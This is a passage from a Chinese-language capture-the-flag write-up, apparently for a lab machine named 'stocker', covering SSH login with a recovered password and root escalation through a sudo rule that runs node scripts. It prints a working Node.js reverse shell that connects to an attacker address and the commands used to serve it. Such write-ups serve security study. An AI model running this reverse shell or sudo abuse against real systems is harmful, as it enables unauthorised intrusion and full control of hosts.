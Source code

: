 用前面看到的用户尝试ssh连一下：

```shell
┌──(root㉿kali)-[/usr/share/wordlists/wfuzz/webservices]
└─# sshpass -p IHeardPassphrasesArePrettySecure ssh angoose@10.10.11.196

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

angoose@stocker:~$
```

成功登陆，拿到user flag。

### 第三步：提权

本地开个web server，传个linpeas上去看一下扫描的结果。或者直接sudo -l。

```shell
angoose@stocker:~$ sudo -l
[sudo] password for angoose:
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

发现可以root运行/usr/local/scripts下的js文件，这就好办了，写个js的反向shell传上去:

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(9999, "10.10.16.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

Attacker：

```shell
[2023- 6-10 17:51:08 CST] Fanxiaoyao ~/Downloads
🔍🤡 -> code payload.js
[2023- 6-10 17:51:27 CST] Fanxiaoyao ~/Downloads
🔍🤡 -> python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
::ffff:10.10.11.196 - - [10/Jun/2023 17:53:01] "GET /payload.js HTTP/1.1" 200 -

```
